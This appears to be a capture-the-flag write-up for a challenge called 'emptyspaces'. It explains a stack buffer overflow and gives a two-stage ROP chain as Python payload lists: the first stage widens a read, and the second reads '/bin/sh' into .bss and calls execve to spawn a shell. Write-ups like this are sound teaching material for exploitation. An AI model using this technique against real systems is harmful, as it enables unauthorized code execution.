

# emptyspaces

## Disassemble and Decompilation



As we can see the input string is 64 bytes long and the read is reading 137, thus we have a BO. The problem is that after the overflow of the buffer and the sEBP we have just 137-64-8=65 bytes that are not enough for a rop chain where we first read the string '/bin/sh' and then call execve.

## Solution

The idea is to use a multistage rop chain exploit. First we use a rop chain to set the RDX register to 0x1000 (arbitrary high value) and then we return to the read in the main. In this way we are rewriting the exact same buffer but we have more bytes for the second stage.

### First Stage

```python
call_main = [
    b'A'*72,
    pop_rdx,
    p64(0x1000),
    main,
]
```

This stage is 96 bytes long, so it fits the 137 bytes read.

### Second Stage

```python
read_execve_payload = [
    b'A'*88,
    pop_rdi,
    p64(0x0),
    pop_rsi,
    bss_addr,
    xor_eax_eax_syscall,
    pop_rax,
    p64(0x3b),
    pop_rdi,
    bss_addr,
    pop_rdx_pop_rsi,
    p64(0x0),
    p64(0x0),
    syscall
]
```

This stage fits the 0x1000 bytes we have set in the RDX register in the first stage. We overflow the buffer and overwrite the sRIP of the read() function. Basically the read() function in the main instead of returning to the main itself, it returns to the pop_rdi gadget. Then the chain begins, a read syscall is called to read the string '/bin/sh' in the bss section, then the execve syscall is called to execute the string '/bin/sh'.

Note that we have two different syscall gadgets. This is because the xor_eax_eax_syscall gadget is used to set the RAX register to 0x0, while the last syscall gadget is a terminator syscall, meaning that it will never return.

The complete exploit is in [script.py](script.py).
